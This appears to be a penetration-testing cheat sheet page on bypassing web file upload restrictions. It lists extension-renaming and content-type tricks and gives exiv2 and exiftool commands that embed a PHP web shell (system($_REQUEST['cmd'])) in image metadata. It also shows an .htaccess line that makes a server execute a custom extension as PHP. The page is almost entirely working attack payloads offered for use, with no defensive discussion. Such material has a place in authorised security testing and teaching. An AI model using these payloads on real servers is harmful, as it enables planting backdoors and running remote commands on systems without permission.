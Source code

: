 # ⭕ File Upload Checks

## <mark style="color:red;">Bypassing File Upload Restrictions</mark>

* file.php -> file.jpg
* file.php -> file.php.jpg
* file.asp -> file.asp;.jpg
* file.gif (contains php code, but starts with string GIF/GIF98)
* 00%
* file.jpg with php backdoor in exif (see below)
* .jpg -> proxy intercept -> rename to .php

## <mark style="color:red;">Injecting PHP into JPEG</mark>

```bash
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
```

## <mark style="color:red;">Uploading .htaccess to interpret .blah as .php</mark>

```
AddType application/x-httpd-php .blah
```
